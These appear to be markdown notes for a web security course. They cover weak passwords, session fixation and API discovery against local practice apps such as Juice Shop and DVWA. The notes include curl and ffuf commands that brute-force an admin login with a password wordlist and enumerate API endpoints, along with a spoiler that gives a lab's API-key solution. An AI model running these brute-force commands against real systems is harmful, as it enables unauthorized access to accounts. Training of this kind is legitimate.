 # Video 4.3

* [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
* [GitHub: SecLists](https://github.com/danielmiessler/SecLists)

```sh
curl 'http://localhost:3000/rest/user/login' -H 'Content-Type: application/json' -d '{"email":"admin@juice-sh.op","password":"admin"}'
```

```sh
# don't want to skip 401, as we can get some brute-force prevention error message
# with 401 Unauthorized code
ffuf -u 'http://localhost:3000/rest/user/login' -H 'Content-Type: application/json' -d '{"email":"admin@juice-sh.op","password":"FUZZ"}' -fs 26 -w /usr/share/seclists/Passwords/probable-v2-top12000.txt:FUZZ
```

# Video 4.4

* [CWE-384: Session Fixation](https://cwe.mitre.org/data/definitions/384.html)
* [File: dvwa-session.sh](dvwa-session.sh)

```sh
# execute curl 2 times a second
for i in {1..10}; do dvwa-session;sleep 0.5; done
```

```sh
date -d @UNIX_TIME
```

# Video 4.5

```sh
ffuf -u http://localhost:10003FUZZ -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt
```

<details>
  <summary>Spoiler: Solution for vuln-app</summary>

    curl http://localhost:10003/api/topSecret -H 'Content-Type: application/json' -d '{"apiKey":"V2VsbERvbmVSZWNvZ25pemluZ0Jhc2U2NCEh"}'
</details>
